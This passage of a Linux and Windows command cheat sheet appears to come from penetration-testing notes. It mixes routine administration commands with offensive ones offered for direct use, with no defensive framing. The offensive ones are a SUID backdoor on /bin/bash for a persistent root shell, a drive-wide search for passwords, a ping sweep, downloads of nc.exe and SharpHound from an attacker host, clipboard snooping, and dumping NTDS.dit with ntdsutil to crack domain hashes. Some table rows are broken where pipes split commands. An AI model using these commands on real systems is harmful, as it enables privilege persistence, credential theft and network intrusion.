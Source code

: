 | `umount /dev/sdb1`                                                               | Unmounts the file system located at `/dev/sdb1`                                                                              |                                                                                                                |                                                                                                                     |
| `sudo route add -net default gw 10.10.0.1 netmask 0.0.0.0 dev wlan0 metric 1`    | Adds another default route with a higher metric to choose a different interface to access the Internet                       |                                                                                                                |                                                                                                                     |
| `sudo dhclient wlan0`                                                            | Requests a new DHCP lease on interface `wlan0`                                                                               |                                                                                                                |                                                                                                                     |
| `openssl enc -aes-256-cbc -salt -in file.txt -out file.txt.enc`                  | Encrypts a file with a password at the command line                                                                          |                                                                                                                |                                                                                                                     |
| `openssl enc -aes-256-cbc -d -in file.txt.enc -out file.txt`                     | Decrypts a file using a password at the command line                                                                         |                                                                                                                |                                                                                                                     |
| `sudo chmod +s /bin/bash`<br>`bash -p`                                           | Execute the command in a machine, and if root access is lost, use "bash -p" for a root shell.                                |                                                                                                                |                                                                                                                     |

---

# Windows

| Command                                                                                     | Purpose                                                                                                    |
| ------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| `get-childitem -hidden`                                                                     | Shows all hidden files in the current directory                                                            |
| `gci -recurse C:\                                                                           | % { select-string -path $_ -pattern password} 2>$null`                                                     |
| `1..255                                                                                     | % {ping -n1 192.168.0.$_                                                                                   |
| `(New-Object System.Net.Webclient).DownloadFile("http://10.1.1.1:8000/nc.exe","C:\nc.exe")` | Downloads a file to the `C:\` location                                                                     |
| `certutil -hashfile ntds.dit md5`                                                           | Hashes a file using MD5                                                                                    |
| `certutil -encodehex ntds.dit ntds.hex`                                                     | Encodes a file as hexadecimal                                                                              |
| `certutil -encode test.jpg test.base64`                                                     | Encodes a file as base64                                                                                   |
| `certutil -decode test.base64 test.jpg`                                                     | Decodes a base64-encoded file                                                                              |
| `iwr -uri http://10.10.14.27/SharpHound.ps1 -outfile SharpHound.ps1`                        | Downloads a file from another machine                                                                      |
| `$x=""; while ($true) { $y=get-clipboard -raw; if ($x -ne $y) { write-host $y; $x=$y } }`   | Monitors the clipboard and prints its contents to the screen                                               |
| `ntdsutil; activate instance ntds; ifm; create full C:\ntds; quit; quit;`                   | Uses `ntdsutil` to obtain the `SYSTEM` registry and hive data as a backup, containing user hashes to crack |
